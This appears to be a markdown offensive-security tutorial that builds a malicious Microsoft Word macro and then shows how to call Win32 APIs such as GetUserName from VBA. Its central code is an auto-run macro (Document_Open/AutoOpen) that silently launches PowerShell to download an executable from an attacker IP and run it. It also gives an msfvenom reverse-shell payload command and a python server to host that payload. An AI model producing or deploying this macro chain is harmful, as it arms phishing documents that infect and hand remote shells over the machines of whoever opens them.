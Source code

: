 # Microsoft Word Macros
A basic exploit using powershell.

## 1. Create VBA Script
This VBA script will interact with Powershell to download a payload from a remote server.

### File Download Method
The following method will download a file from our attacking machine. 
```ps
(New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/x.exe', 'x.exe')
```

### VBA Code
Set the powershell code to a string variable, call that string using the `shell` method and `vbHide` the output from the user.
```vb
Dim str As String
str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/x.exe', 'x.exe')
Shell str, vbHide
```

### Downloading with VBA
MSWord does not have `WAIT` or `SLEEP` functions. We'll need to custom build it
- Set a variable `n` to take a time in seconds.
- Set a variable `t` to take the `Now` datetime.
- `DateAdd` takes interval of time `s`, seconds to wait `w` , and current time `t`
- Create a `Do` loop until `now` is greater than the returned value from `DateAdd`
- Call `DoEvents` allowing word to continue.

```vb
Sub Document_Open()
    Exploit
End Sub

Sub AutoOpen()
    Exploit
End Sub

Sub Exploit()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/x.exe','x.exe')"
    Shell str, VbHide
    Dim exePath As String
    exePath = ActiveDocument.Path & "\" & "x.exe"
    Wait (2)
    Shell exePath, vbHide
End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

## 2. Generate Payload & Host
Generate a payload using `msfvenom` and serve it from a python webserver
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o payload.exe

# Start python server
python3 -m http.server
```

## 3. Calling Win32 APIs
Win32 apis are located in dynamic link libraries (DLL). We can access them by using the `Declare` function. 

The following function prototype will display the username:
```
BOOL GetUserNameA(
    LPSTR lpBuffer,
    LPDWORD pcbBuffer
);
```

### 3.1 Translating C -> VBA
If the data types match, we can pass them with `ByVal`. 

| C | VBA | Translation |
| - | --- | ----------- | 
| `LPSTR` | `String` | `ByVal` | 
| `LPDWORD` | `Long` | `ByRef` |
| `BOOL` | `Long` | |
These function arguments need to be translated to their VBA equivalents. 

### 3.2 Import target function
When working on 64-bit we must also supply the `PtrSafe`. The final declare statement must be placed outside the procedure.
```
Private Declare PtrSafe Function GetUserName Lib "apvapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long
```

### 3.3 Declare Variables
we will declare 3 variables: return value, output buffer and size of output buffer:
```
Function MyMacro()
    Dim res As Long
    Dim MyBuff As String * 256
    Dim MySize As Long
    MySize 256
    res = GetUserName(MyBuff, MySize)
End Function
```

`MyBuff` can contain up to 256 characters, but we don't know the length of the actual username. In C, strings are terminated by a null byte. 

## InStr Function
This function will get the index of a null byte terminator. 
- Define the starting location as `1` ,
- Set search string as the `null` byte
- Subtract 1 from the result to get the string length

```
Dim strlen As Long
strlen = inStr(1, MyBuff, vbNullChar) - 1
MsgBox Left$(MyBuff, strlen)
```

## 4. Printing Result
Print the non-null characters with the `Left` method. Left creates a substring of the first argument with the size of it's second argument.

## 5. Completed API Call
This api call will get the current user name. Note The Left function is to display a substring starting from the left.

```
Private Declare PtrSafe Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long

Function X()
    Dim res As Long
    Dim MyBuff As String * 256
    Dim MySize As Long
    Dim strlen As Long
    MySize = 256
    res = GetUserName(MyBuff, MySize)
    strlen = InStr(1, MyBuff, vbNullChar) - 1
    MsgBox Left$(MyBuff, strlen)
End Function
```
